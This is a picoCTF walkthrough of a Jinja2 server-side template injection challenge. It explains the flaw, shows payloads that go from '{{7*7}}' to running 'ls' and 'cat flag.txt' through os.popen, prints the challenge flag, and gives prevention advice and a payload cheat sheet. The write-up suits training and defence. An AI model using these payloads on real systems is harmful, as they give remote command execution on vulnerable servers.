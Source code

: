 ```yaml
---
title: "SSTI 1 – picoCTF Walkthrough"
date: 2025-04-02 00:30:00 +0800
categories: [CTF, Web Exploitation]
tags: [SSTI, web, Jinja2, template injection, CTF]
permalink: /SSTI-1/
---
```


# Challenge: Server-Side Template Injection (SSTI) 

> **Description:**  
> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps!

> **Hint:**  
> Server Side Template Injection

---

## What is SSTI?
**Sever-Side Template Injection (SSTI)** is a vulnerability where **user input is directly rendered in a server-side template**, allowing attackers to inject and execute code on the server.

If the template engine doesn’t sanitize user input, things like this become dangerous:

```
Hello {{name}}
```

If name is user-controlled, the attacker could inject:
```
{{ 7*7 }}
```
Which renders:
```
Hello 49
```

Now imagine instead of math, the attacker injects Python code to run commans or read files.

## What the Site Looked Like
The site was simple with a text box beside the question
    "What do you want to announce?"

Whatever you typed was reflected on the page. Classic reflection = test for SSTI

### Step 1: Testing the Template Engine
I started small by typing:
```
{{ 7*7 }}
```

The site returned
```
49
```

This meant that it was vulnerable to SSTI, and likely using the **jinja2** template engine (used by Flask and many Python apps)

### Step 2: Escalating with Object Traversal
To gain deeper access, I use this payload:
```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

#### What does this do?
- **config**: A Flask object in Jinja2's environment.
-  `.__class__.__init__.__global__`: Gives access to Python's global variable from the class constructor
- ['os']: Pulls in the OS module
- `.popen('ls').read()`: Run a shell command and returns the output

In short: this **breaks out of the sandbox** and let you run system commands.

### Step 3: Viewing the Files
The output of the above command showed:
```
app.py
templates/
flag requirements.txt
```
flag requirement.txt is almost always what we need in a CTF

### Step 4: Reading the Flag
To the read the flag, the following was ran
```jinja
{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
```

The following flag was printed:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```

## What I learned
- SSTI can be **powerful and dangerous** - from math to full remote code execution.
- Knowing the internals of Jinja2 (or any engine) is helpful in crafting payloads.
- Object traversal like `config.__class__.__init__.__globals__` is a key way to **break out of templates**.

### Other Templates Engines to Watch Out For
| Engine      | Language | Syntax Example | Known for SSTI? |
|-------------|----------|----------------|------------------|
| Jinja2      | Python   | `{{ ... }}`     | Yes            |
| Twig        | PHP      | `{{ ... }}`     | Yes            |
| Smarty      | PHP      | `{$...}`        | Yes            |
| Velocity    | Java     | `$variable`     | Yes            |
| Freemarker  | Java     | `${...}`        | Yes            |
| EJS         | Node.js  | `<%= ... %>`    | Yes            |
| Razor       | .NET     | `@{...}`        | Yes (rare)     |

Always test different expressions like {{7*7}}, ${7*7}, <%= 7*7 %> to see what sticks.

### How to Prevent SSTI
Developers: Here's how to stay safe:
- Don’t use render_template_string() with raw user input.
- Always sanitize or escape user input in templates.
- Use whitelisted template variables.
- Avoid evaluating user-controlled strings in your rendering logic.
- Use template engine settings to restrict dangerous features.

### Payload Cheat Sheet
| Purpose        | Payload                                                                 |
|----------------|-------------------------------------------------------------------------|
| Confirm SSTI   | `{{7*7}}`                                                               |
| Access config  | `{{ config }}`                                                          |
| List files     | `{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}`  |
| Read flag.txt  | `{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}` |

## Summary
This was a classic **SSTI challenge** — starting with a simple reflected input, moving to evaluating math, then escalating to reading the server’s filesystem. Understanding Python’s object model and Jinja2 internals gave me full control.